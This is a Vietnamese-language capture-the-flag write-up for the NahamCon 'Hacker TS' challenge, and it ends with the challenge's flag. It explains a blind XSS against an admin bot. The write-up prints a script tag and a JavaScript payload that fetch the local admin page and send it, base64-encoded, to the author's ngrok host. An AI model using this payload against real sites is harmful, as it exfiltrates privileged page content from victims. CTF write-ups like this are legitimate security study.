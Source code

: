 # nahamcon CTF - Hacker TS

## Description
We all love our hacker t-shirts. Make your own custom ones.

## Solution

### Review

![7](https://user-images.githubusercontent.com/71699412/167263496-45a82ac5-4f98-4163-84f3-c743c93d5907.jpg)


- Chall cho nhập 1 đoạn text, gửi thì redirect đến page chứa ảnh áo kèm text vừa gửi.

- Truy cập đường dẫn admin thì nó chỉ cho localhost truy cập

### Exploit

Ngồi test cả buổi cứ tưởng SSRF, Command Injection, RCE nhưng chẳng thèm thử XSS, và đúng thế, website dính lỗi XSS ở phía admin khi text ta gửi sẽ được 1 con bot go to để xem, đây là XSS blind, chơi CTF lần sau hãy chú ý nhiều hơn.

Ta gửi đoạn script sau, việc trỏ đến `a.js` giúp ta edit payload dễ hơn.
<script src="http://a047-42-112-56-248.ngrok.io/a.js"></script>

file `a.js`:
```js
var xhr = new XMLHttpRequest;
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function() {
	var flag = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://a047-42-112-56-248.ngrok.io?flag=" + flag);
	exit.send();
};

xhr.send();
```
Đơn giản là request `localhost/admin` rồi send responseText đến server mình host thôi, nhận được response: 

![Screenshot 2022-05-07 233532](https://user-images.githubusercontent.com/71699412/167263527-e2b079d7-7f05-46e5-9f10-54ece4583072.jpg)

Decode base64 ta được flag.

Hi admin! here is your flag: <strong>flag{461e2452088eb397b6138a5934af6231}</strong>
